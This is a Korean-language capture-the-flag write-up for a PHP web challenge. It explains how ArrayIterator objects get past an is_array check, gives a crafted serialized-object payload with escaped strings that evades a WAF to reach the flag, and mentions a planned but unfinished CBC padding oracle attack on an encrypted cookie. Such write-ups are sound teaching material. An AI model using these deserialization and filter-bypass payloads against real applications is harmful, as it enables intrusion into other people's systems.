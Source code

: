 플래그를 얻기 위한 조건을 보면 array, string, null이 아니면서 array이여야 한다. (?)

여기서 재밌는 트릭이 존재한다.(~~갓 PHP 찬양해라~~)

```
[ dump ]
- ArrayIterator
object(ArrayIterator)#1 (1) { ["storage":"ArrayIterator":private]=> array(1) { ["shpik"]=> int(0) } } 
C:13:"ArrayIterator":37:{x:i:0;a:1:{s:5:"shpik";i:0;};m:a:0:{}}
- ArrayObject
object(ArrayObject)#2 (1) { ["storage":"ArrayObject":private]=> array(1) { ["shpik"]=> int(0) } } 
C:11:"ArrayObject":37:{x:i:0;a:1:{s:5:"shpik";i:0;};m:a:0:{}}
- Array
array(1) { ["shpik"]=> int(0) } 
a:1:{s:5:"shpik";i:0;}

[ Operation ]
- ArrayIterator
[+] you're shpikgod
- ArrayObject
[+] you're shpikgod
- Array
[!] ERRORRRRRR
```

ArrayIterator와 ArrayObject는 Array와 같으면서 is_array함수에는 걸리지 않는다.

waf에 의해 필터링 되어있으므로, 이를 우회하기 위해 ArrayIterator을 이용 및 문자열 치환을 이용해 간단히 쿼리를 만들 수 있다.

```
O:5:"Uzume":1:{s:4:"flag";C:13:"ArrayIterator":41:{x:i:0;a:1:{S:4:"\41SIS";S:7:"\6bawaii~";}}}
```

이로써 문제는 해결될 것이다.

....인줄 알았는데 않이, 왜 camellia-256-CBC로 암호화가 되어 있는가..카멜리아?가 뭔진 모르겠지만 **블록암호 CBC**라는 건 알겠다. 이것은 오라클 패딩 각이다.

```php
function save(){
    global $key;
    $iv = random_bytes(16);
    $enc = bin2hex($iv) . bin2hex(openssl_encrypt(serialize($this), 'camellia-256-cbc', __SALT__, $options=OPENSSL_RAW_DATA, $iv));
    setcookie("donmai", $value = $enc, $expire = time() + 86400 * 30, "/", $_SERVER['HTTP_HOST']);
}
```

즉 이 문제는 Oracle Padding + Unserialize 문제 인 것이다!

공격을 여러번 날리면 문제상 몇분동안(?) 블락을 당하는데, 그 블락이 아직도 유지되고 있어서 Oracle Padding을 수행하지 못하고 위와 같이 unserialize를 통해 플래그를 실행할 수 있다는 것까지만 라이트업을 작성하였다.